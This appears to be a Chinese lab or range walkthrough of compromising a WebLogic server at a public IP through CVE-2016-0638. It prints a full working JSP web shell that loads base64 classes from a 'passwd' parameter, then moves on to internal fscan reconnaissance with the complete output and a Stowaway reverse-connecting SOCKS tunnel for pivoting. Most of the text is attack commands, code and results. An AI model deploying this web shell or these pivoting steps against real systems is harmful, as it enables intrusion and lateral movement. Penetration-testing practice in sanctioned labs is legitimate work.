






# 0x01前言

一开始工具跑不起来，后面才发现是原先的java版本太高了，整了个java8才跑起来

# 0x02复现

准备工具：WeblogicTool 1.2

环境靶场：http://119.45.164.136:7001/

dirsearch扫不出目录，但是看着cve的话就直接访问管理控制台了

## 外网探测

http://119.45.164.136:7001/console/login/LoginForm.jsp



利用工具进行扫描



CVE_2016_0638_ECHO漏洞，老漏洞了

删掉端口后面多余字符，输入/uddiexplorer/



随便在右上角找了一个图片的路径

```
http://119.45.164.136:7001/uddiexplorer/help.gif
```

复制图片文件名 到weblogic中用命令去查找

```
find ./ -name help.gif
```



然后我们pwd看一下当前的目录

```
/root/Oracle/Middleware/user_projects/domains/base_domain
```

然后拼接一下路径

```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/uddiexplorer/5f6ebw/war/
```

这个路径就是我们可以上传文件的路径

因为是java的环境，所以我们需要写jsp的木马

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

然后密码是passwd

## 提权

用蚁剑连，然后用插件进行提权，这里队友做过了我就不做了

## 内网穿透

ifconfig看ip



在tmp目录里上传个fscan，给777权限然后扫内网ip

```
./fscan -h 172.16.10.0/24
```

```
#Halo AntSword!172.16.10.1:6379 open
172.16.10.1:80 open
172.16.10.1:22 open
172.16.10.1:8082 open
172.16.10.1:8848 open
172.16.10.1:7001 open
172.16.10.1:8081 open
172.16.10.8:7001 open
[*] WebTitle http://172.16.10.1        code:200 len:1925   title:Hello!
[*] WebTitle http://172.16.10.1:8081   code:200 len:11215  title:Apache Tomcat/11.0.5
[*] WebTitle http://172.16.10.1:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[*] WebTitle http://172.16.10.1:8082   code:200 len:15928  title:BEES企业网站管理系统_企业建站系统_外贸网站建设_企业CMS_PHP营销企业网站�
[+] PocScan http://172.16.10.1:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.16.10.1:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] Redis 172.16.10.1:6379 unauthorized file:/data/module.so
[*] WebTitle http://172.16.10.1:7001   code:404 len:1164   title:Error 404--Not Found
[*] WebTitle http://172.16.10.8:7001   code:404 len:1164   title:Error 404--Not Found
[+] InfoScan http://172.16.10.8:7001   [weblogic] 
[+] InfoScan http://172.16.10.1:7001   [weblogic] 
[+] PocScan http://172.16.10.1:7001 poc-yaml-weblogic-cve-2020-14750 
[+] PocScan http://172.16.10.8:7001 poc-yaml-weblogic-cve-2020-14750 
[+] PocScan http://172.16.10.1:7001 poc-yaml-weblogic-cve-2019-2729-1 
[+] PocScan http://172.16.10.1:7001 poc-yaml-weblogic-ssrf 
[+] PocScan http://172.16.10.8:7001 poc-yaml-weblogic-ssrf 
[+] PocScan http://172.16.10.8:7001 poc-yaml-weblogic-cve-2019-2729-1 
[+] PocScan http://172.16.10.8:7001 poc-yaml-weblogic-cve-2019-2729-2 
[+] PocScan http://172.16.10.1:7001 poc-yaml-weblogic-cve-2019-2729-2 
[+] PocScan http://172.16.10.1:7001 poc-yaml-weblogic-cve-2019-2725 v10
[+] PocScan http://172.16.10.8:7001 poc-yaml-weblogic-cve-2019-2725 v10
```

接下来就是搭建代理了，上传一个stowaway的agent

给权限然后搭建代理

攻击机(我的服务器)

```
./linux_x64_admin -l 9999
```

靶机

```
./linux_x64_agent -c IP:9999
```



然后输入

```
use 0
socks 5555
```

然后在浏览器中配置代理就行

## EES企业网站管理系统

访问http://172.16.10.1:8082，BEES企业网站管理系统_企业建站系统_外贸网站建设_企业CMS_PHP营销企业网站

发现这个隧道搭建的特别不稳定。。。拿到了poc但是做不了
